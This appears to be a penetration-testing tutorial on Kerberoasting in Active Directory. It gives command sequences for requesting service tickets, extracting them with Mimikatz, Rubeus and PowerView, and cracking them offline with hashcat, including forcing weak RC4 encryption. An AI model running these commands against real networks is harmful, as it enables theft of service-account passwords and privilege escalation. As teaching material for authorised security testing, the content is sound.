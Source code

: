 # Kerberoasting

In this section will cover:
- Kerberoasting - from Linux
- Kerberoasting - from Windows

**Kerberoasting Overview**

Kerberoasting is a lateral movement/privilege escalation technique in Active Directory environments. This attack targets Service Principal Names (SPN) accounts. SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running. Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as NT AUTHORITY\LOCAL SERVICE. Any domain user can request a Kerberos ticket for any service account in the same domain. This is also possible across forest trusts if authentication is permitted across the trust boundary. All you need to perform a Kerberoasting attack is an account's cleartext password (or NTLM hash), a shell in the context of a domain user account, or SYSTEM level access on a domain-joined host.

Finding SPNs associated with highly privileged accounts in a Windows environment is very common. Retrieving a Kerberos ticket for an account with an SPN does not by itself allow you to execute commands in the context of this account. However, the ticket (TGS-REP) is encrypted with the service account’s NTLM hash, so the cleartext password can potentially be obtained by subjecting it to an offline brute-force attack with a tool such as Hashcat.

**Kerberoasting - Performing the Attack**

Depending on your position in a network, this attack can be performed in multiple ways:
- From a non-domain joined Linux host using valid domain user credentials.
- From a domain-joined Linux host as root after retrieving the keytab file.
- From a domain-joined Windows host authenticated as a domain user.
- From a domain-joined Windows host with a shell in the context of a domain account.
- As SYSTEM on a domain-joined Windows host.
- From a non-domain joined Windows host using runas /netonly.

Several tools can be utilized to perform the attack:
- Impacket’s GetUserSPNs.py from a non-domain joined Linux host.
- A combination of the built-in setspn.exe Windows binary, PowerShell, and Mimikatz.
- From Windows, utilizing tools such as PowerView, Rubeus, and other PowerShell scripts.


## Kerberoasting - from Linux

### Kerberoasting with GetUserSPNs.py

**Setup**
````bash
https://github.com/fortra/impacket

# Installing Impacket using Pip
$ sudo python3 -m pip install .

# Verify if GetUserSPNs.py is installed
$ GetUserSPNs.py -h
$ impacket-GetUserSPNs -h
````
**Usage**
````bash
# Listing SPN Accounts with GetUserSPNs.py
$ GetUserSPNs.py -dc-ip <DC_IP> <domain>/<user>
$ impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user>

# Requesting all TGS Tickets
$ GetUserSPNs.py -dc-ip <DC_IP> <domain>/<user> -request
$ impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user> -request

# Requesting a Single TGS ticket
$ GetUserSPNs.py -dc-ip <DC_IP> <domain>/<user> -request-user <user_requested>
$ impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user> -request-user <user_requested>

# Saving the TGS Ticket to an Output File
$ GetUserSPNs.py -dc-ip <DC_IP> <domain>/<user> -request-user <user_requested> -outputfile tgs
$ impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user> -request-user <user_requested> -outputfile tgs
````
**Crack**
````bash
# Cracking the Ticket Offline with Hashcat
$ hashcat -m 13100 tgs /usr/share/wordlists/rockyou.tx
````

## Kerberoasting - from Windows

### Kerberoasting - Semi Manual method

As the tactic and defenses have evolved, we can now perform Kerberoasting from Windows in multiple ways. To start down this path, we will explore the manual route and then move into more automated tooling. Let's begin with the built-in setspn binary to enumerate SPNs in the domain.

**setspn.exe**
````powershell
# Enumerating SPNs with setspn.exe
> setspn.exe -Q */*

# Targeting a Single User
> Add-Type -AssemblyName System.IdentityModel
> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<user>/<domain"

# Retrieving All Tickets Using setspn.exe
> setspn.exe -T <domain> -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
````
Before moving on, let's break down the commands above to see what we are doing (which is essentially what is used by Rubeus when using the default Kerberoasting method):
- The Add-Type cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
- The -AssemblyName parameter allows us to specify an assembly that contains types that we are interested in using
- System.IdentityModel is a namespace that contains different classes for building security token services
- We'll then use the New-Object cmdlet to create an instance of a .NET Framework object
- We'll use the System.IdentityModel.Tokens namespace with the KerberosRequestorSecurityToken class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session

Now that the tickets are loaded, we can use Mimikatz to extract the ticket(s) from memory.

**Extracting Tickets from Memory with Mimikatz**
````cmd
# base64 /out:true
# kerberos::list /export 
````
If we do not specify the base64 /out:true command, Mimikatz will extract the tickets and write them to .kirbi files. Depending on our position on the network and if we can easily move files to our attack host, this can be easier when we go to crack the tickets. Let's take the base64 blob retrieved above and prepare it for cracking.

**Cracking**
````bash
# Preparing the Base64 Blob for Cracking
$ echo "<base64 blob>" |  tr -d \\n

# Placing the Output into a File as .kirbi
$ cat encoded_file | base64 -d > <file>.kirbi

# Extracting the Kerberos Ticket using kirbi2john.py
$ python2.7 kirbi2john.py <file>.kirbi

# Modifiying crack_file for Hashcat
$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > tgs_hashcat

# Cracking the Hash with Hashcat
$ hashcat -m 13100 tgs_hashcat /usr/share/wordlists/rockyou.txt
````
If we decide to skip the base64 output with Mimikatz and type mimikatz `# kerberos::list /export`, the .kirbi file (or files) will be written to disk. In this case, we can download the file(s) and run kirbi2john.py against them directly, skipping the base64 decoding step.

### Automated / Tool Based Route

#### PowerView

Let's use PowerView to extract the TGS tickets and convert them to Hashcat format. We can start by enumerating SPN accounts.
````powershell
# Using PowerView to Enumerate SPN Accounts
> Import-Module .\PowerView.ps1
> Get-DomainUser * -spn | select samaccountname

# Using PowerView to Target a Specific User
> Get-DomainUser -Identity <user> | Get-DomainSPNTicket -Format Hashcat

# Exporting All Tickets to a CSV File
> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\tgs.csv -NoTypeInformation
````

#### Rubeus
````powershell
> .\Rubeus.exe

# Using the /stats Flag
> .\Rubeus.exe kerberoast /stats

# Using the /nowrap Flag
> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
````
**A Note on Encryption Types**

Kerberoasting tools typically request RC4 encryption when performing the attack and initiating TGS-REQ requests. This is because RC4 is weaker and easier to crack offline using tools such as Hashcat than other encryption algorithms such as AES-128 and AES-256. When performing Kerberoasting in most environments, we will retrieve hashes that begin with $krb5tgs$23$*, an RC4 (type 23) encrypted ticket. Sometimes we will receive an AES-256 (type 18) encrypted hash or hash that begins with $krb5tgs$18$*. While it is possible to crack AES-128 (type 17) and AES-256 (type 18) TGS tickets using Hashcat, it will typically be significantly more time consuming than cracking an RC4 (type 23) encrypted ticket, but still possible especially if a weak password is chosen.
````powershell
# Received the TGS ticket RC4 (type 23) encrypted
> .\Rubeus.exe kerberoast /user:testspn /nowrap
$krb5tgs$23$*testspn$

# Requesting a new ticket with AES-256 (type 18) encryption
>  .\Rubeus.exe kerberoast /user:testspn /nowrap
$krb5tgs$18$testspn$

# Cracking AES-256 (type 18)
$ hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt
````
We can use Rubeus with the /tgtdeleg flag to specify that we want only RC4 encryption when requesting a new service ticket. The tool does this by specifying RC4 encryption as the only algorithm we support in the body of the TGS request.
